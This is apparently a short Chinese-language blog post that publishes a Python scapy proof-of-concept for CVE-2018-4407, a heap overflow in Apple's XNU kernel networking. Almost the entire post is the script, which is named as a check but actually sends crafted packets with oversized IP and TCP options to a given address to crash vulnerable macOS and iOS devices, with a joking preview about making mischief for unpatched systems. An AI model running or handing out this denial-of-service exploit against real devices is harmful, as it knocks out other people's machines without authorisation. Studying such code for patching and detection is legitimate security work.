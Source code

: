 title: "CVE-2018-4407苹果操作系统内核堆缓冲区溢出漏洞验证POC"
date: 2018-11-01 18:00:00 +0800
update: 2018-11-01 18:00:00 +0800
author: me
cover: "-/images/cve-2018-4407.png"
tags:
    - 漏洞
    - poc
    - python
preview: 影响苹果系统哦~~不更新IOS12就捣蛋呦~~

---


check_icmp_dos.py:

```
# CVE-2018-4407 ICMP DOS 
# https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407 
# from https://twitter.com/ihackbanme 
import sys 
try: 
	from scapy.all import * 
except Exception as e: 
	print ("[*] You need install scapy first:\n[*] sudo pip install scapy ") 
	
if __name__ == '__main__': 
	try: 
		check_ip = sys.argv[1] 
		print ("[*] !!!!!!Dangerous operation!!!!!!") 
		print ("[*] Trying CVE-2018-4407 ICMP DOS " + check_ip) 
		for i in range(8,20): 
			send(IP(dst=check_ip,options=[IPOption("A"*i)])/TCP(dport=2323,options=[(19,"1"*18),(19,"2"*18)])) 
		print ("[*] Check Over!! ") 
	except Exception as e: 
		print "[*] usage: sudo python check_icmp_dos.py 127.0.0.1" 
```

![cve-2018-4407](-/images/cve-2018-4407.png)